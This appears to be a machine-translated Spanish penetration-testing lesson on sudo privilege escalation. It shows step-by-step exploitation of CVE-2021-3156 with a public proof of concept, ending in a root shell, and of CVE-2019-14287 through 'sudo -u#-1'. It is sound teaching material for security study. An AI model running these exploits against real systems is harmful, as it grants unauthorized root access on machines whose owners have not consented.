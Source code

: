 # Sudo

---

El programa`sudo`se usa en sistemas operativos UNIX como Linux o MacOS para iniciar procesos con los derechos de otro usuario. En la mayoría de los casos, se ejecutan comandos que solo están disponibles para los administradores. Sirve como una capa adicional de seguridad o una salvaguardia para evitar que el sistema y su contenido sea dañado por usuarios no autorizados. El`/etc/sudoers`El archivo especifica qué usuarios o grupos pueden ejecutar programas específicos y con qué privilegios.

  Sudo

```shell-session
cry0l1t3@nix02:~$ sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
[sudo] password for cry0l1t3:  **********

Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults        use_pty
root            ALL=(ALL:ALL) ALL
%admin          ALL=(ALL) ALL
%sudo           ALL=(ALL:ALL) ALL
cry0l1t3        ALL=(ALL) /usr/bin/id
@includedir     /etc/sudoers.d
```

Una de las últimas vulnerabilidades para`sudo`Lleva el CVE-2021-3156 y se basa en una vulnerabilidad de desbordamiento del búfer basada en el montón. Esto afectó las versiones de sudo:

- 1.8.31 - Ubuntu 20.04
- 1.8.27 - Debian 10
- 1.9.2 - Fedora 33
- y otros

Para descubrir la versión de`sudo`, el siguiente comando es suficiente:

  Sudo

```shell-session
cry0l1t3@nix02:~$ sudo -V | head -n1

Sudo version 1.8.31
```

Lo interesante de esta vulnerabilidad fue que había estado presente durante más de diez años hasta que se descubrió. También hay un público[Prueba de concepto](https://github.com/blasty/CVE-2021-3156)que se puede usar para esto. Podemos descargar esto en una copia del sistema de destino que hemos creado o, si tenemos una conexión a Internet, al sistema de destino en sí.

  Sudo

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/blasty/CVE-2021-3156.git
cry0l1t3@nix02:~$ cd CVE-2021-3156
cry0l1t3@nix02:~$ make

rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
```

Al ejecutar el exploit, se nos puede mostrar una lista que enumere todas las versiones disponibles de los sistemas operativos que pueden verse afectados por esta vulnerabilidad.

  Sudo

```shell-session
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
```

Podemos averiguar con qué versión del sistema operativo estamos tratando con el siguiente comando:

  Sudo

```shell-session
cry0l1t3@nix02:~$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

A continuación, especificamos la identificación respectiva para el sistema operativo de la versión y ejecutamos el exploit con nuestra carga útil.

  Sudo

```shell-session
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **

# id

uid=0(root) gid=0(root) groups=0(root)
```

---

## SUDO Política Bypass

En 2019 se encontró otra vulnerabilidad que afectó todas las versiones a continuación.`1.8.28`, que permitió que los privilegios se intensificaran incluso con un comando simple. Esta vulnerabilidad tiene el[CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/)y requiere solo un requisito previo. Tenía que permitir un usuario en el`/etc/sudoers`archivo para ejecutar un comando específico.

  Sudo

```shell-session
cry0l1t3@nix02:~$ sudo -l
[sudo] password for cry0l1t3: **********

User cry0l1t3 may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
```

De hecho,`Sudo`También permite ejecutar comandos con ID de usuario específicas, que ejecuta el comando con los privilegios del usuario que llevan la ID especificada. La identificación del usuario específico se puede leer desde el`/etc/passwd`archivo.

  Sudo

```shell-session
cry0l1t3@nix02:~$ cat /etc/passwd | grep cry0l1t3

cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

Así la identificación del usuario`cry0l1t3`sería`1005`. Si una identificación negativa (`-1`) se ingresa en`sudo`, esto da como resultado el procesamiento de la identificación`0`, que solo el`root`tiene. Esto, por lo tanto, condujo a la capa de raíz inmediata.

  Sudo

```shell-session
cry0l1t3@nix02:~$ sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```